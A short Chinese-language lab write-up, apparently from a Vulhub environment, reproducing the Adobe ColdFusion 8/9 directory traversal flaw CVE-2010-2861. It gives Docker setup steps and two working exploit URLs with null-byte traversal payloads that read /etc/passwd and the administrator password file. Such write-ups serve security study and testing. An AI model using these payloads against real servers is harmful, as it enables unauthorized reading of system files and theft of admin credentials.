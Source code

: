 # Adobe ColdFusion 文件读取漏洞 CVE-2010-2861

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

Vulhub执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`

![image-20220221201331662](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212013778.png)

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`

![image-20220221201418990](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212014074.png)



